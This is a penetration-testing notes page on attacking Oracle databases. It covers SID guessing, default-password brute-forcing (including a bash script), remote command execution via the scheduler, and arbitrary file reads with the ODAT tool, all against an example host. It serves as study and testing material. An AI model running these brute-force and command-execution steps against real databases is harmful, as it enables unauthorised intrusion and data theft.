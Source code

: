 # Oracle Databases

Oracle databases are not commonly encountered in CTF challenges, but are very common in corporate environments.  Further, [versions &lt;12.1](https://docs.oracle.com/database/121/NTQRF/ap_services.htm#NTQRF700) will by default run with SYSTEM level privileges making these a very desirable attack vector.

Most of the examples here will be utilizing [ODAT ](https://github.com/quentinhardy/odat), the Oracle Database Attacking Tool.  This is because it has a number of exploits and scanners built in, is generally easier to set up and more stable than metasploit, and can use a lot of metasploits wordlists and data.  However, a lot will be repeated from the [wiki](https://github.com/quentinhardy/odat/wiki), so follow that if you want more in depth information.  Follow the guide in the [ODAT readme](https://github.com/quentinhardy/odat) to ensure that your Kali has all the required tools.

In general I'd recommend this over trying to get Metasploit up and running.  However, if you are still keen then follow [this guide](https://github.com/rapid7/metasploit-framework/wiki/How-to-get-Oracle-Support-working-with-Kali-Linux).  For an alternative, see [Andy Gill's guide](https://blog.zsec.uk/msforacle/).

## Connecting to the Database

Assuming a remote TNS listener on port 1521, we can connect to a remote database as follows:

```
/usr/bin/sqlplus64 username/password@192.168.0.5:1521/ORCL
```

It's worth adding the `as sysdba` appended to the above command as your user may already be a database administrator, but the option to connect as one has to be explicitly set.  Alternatively pass the `--sysdba` flag to ODAT when logging in:

```
./odat.py all -s 192.168.0.5 -d ORCL -U username -P password --sysdba
```

It's highly recommended to use the `all` module when being presented with a new set of credentials, discovered either via brute-force or from another service.  Running this in combination with `--test-modules` will give you a quick overview of what is and isn't possible.  Use this flag with any of the below modules to ensure they work correctly.

If using ODAT, I'd also advise passing the `-vvv` flag once you ensure a module is working as it will allow you to debug the SQL commands, and see how they work behind the scenes.

## SID Enumeration

The [Oracle System Identifier](https://docs.oracle.com/cloud/latest/db112/CNCPT/startup.htm#CNCPT601) \(SID\) for Oracle identifies the database instance running on the host.  These will be unique for each database instance running, and it's important to identify all SID's available, as different instances can hold different data.

We can use ODAT to enumerate these SID's and find instances to attack.  These have to be explicity set in the command so it's important that you verify any one's available:

```
./odat.py sidguesser -s 10.10.10.82
```

## Username Brute-force

Generally usernames and passwords are not case-sensitive in older Oracle databases, but as of [11g](http://planet.openbravo.com/blog/aware-oracle-11g-login-is-case-sensitive/) this is not the case.  Also they are typically subject to an account lockout on too many password attempts ranging from 5 to 10, as we can see here:

```
string = SYSTEM:0RACLE
ORA-01017: invalid username/password; logon denied
string = SYSTEM:0RACL3
ORA-01017: invalid username/password; logon denied
string = SYSTEM:ORACLE8
ORA-28000: the account is locked
```

Lucky for us it will tell us and could be used as a very basic username enumeration method if you're really really desperate.  I'm joking, don't do that. Do not do that!  This means you have to be very careful when enumerating database users, and I'd advise sticking to either reused credentials or default password lists specifically targeting Oracle.

We can again use ODAT to brute-force passwords:

```bash
./odat.py passwordguesser -s 192.168.0.5 -d ORCL --accounts-file accounts/accounts_multiple.txt
```

The following bash script can perform a dirty manual brute-force using sqlplus, so be sure to adjust the path's in this one accordingly:

```bash
#!/bin/bash
INPUT=/usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv
OLDIFS=$IFS
IFS=,
[ ! -f $INPUT ] && { echo "$INPUT file not found"; exit 99; }
while read comment number username password hash comment
do
 echo "string = $username:$password"
 /usr/bin/sqlplus64 -L $username\/$password\@192.168.0.5:1521\/ORCL | cut -d$'\n' -f 7 
done < $INPUT
IFS=$OLDIFS
```

**Source**: [http://carnal0wnage.attackresearch.com/2014/10/quick-and-dirty-oracle-brute-forcing.html](http://carnal0wnage.attackresearch.com/2014/10/quick-and-dirty-oracle-brute-forcing.html)

## Code Execution

There's unfortunately nothing as trivial as `xp_cmdshell` for Oracle databases, but we do have options.  We can use `dbmsscheduler` in odat to execute arbitrary commands, however the results are not displayed.  You'll have to use one of the many file transfer methods to fetch the output of this command.

```
./odat.py dbmsscheduler -s 192.168.0.5 -d ORCL -U username -P password --sysdba --exec "C:\windows\system32\cmd.exe /c dir C:\\Users\\ > C:\output" -vvv
```

## Arbitrary File Read

I've found the `externaltable` to give the best results in cases like these:

```
./odat.py externaltable --getFile C:\\Users\\Booj\\Desktop evil.jpg evil.jpg -s 192.168.0.5 -d ORCL -U username -P password --sysdba
```

However, do note that `ctxsys` can do the same, but all results are transformed to upper case:

```
./odat.py ctxsys --getFile 'C:\\Users\\Booj\\Desktop\\evil.jpg' -s 192.168.0.5 -d ORCL -U username -P password --sysdba
```

## File Upload

## CVE 2012-1675 \(TNS Poisoning\)

## CVE-2012-3137

[Alternative Script](https://github.com/r1-/cve-2012-3137)

If the vulnerability is not exploitable, this script will return a different session key on each run?

## Privilege Escalation

## Further Reading

[Blackhat USA 2009 - Attacking Oracle with the Metasploit Framework](http://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf) & [Paper](http://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-PAPER.pdf)  
[Oracle DB Vulnerabilities: The Missing Pentester Handbook](https://hackmag.com/uncategorized/looking-into-methods-to-penetrate-oracle-db/)  
[Hardening Oracle Databases](/h ttp://www.ordba.net/Articles/HardeningOracleDB.htm)  
[Simple Oracle Privilege Escalation Techniques](http://ora-600.pl/art/oracle_privilege_escalation.pdf)  
[Simple Oracle Privilege Escalation Techniques 2](http://ora-600.pl/art/privilege_escalation_2.pdf)

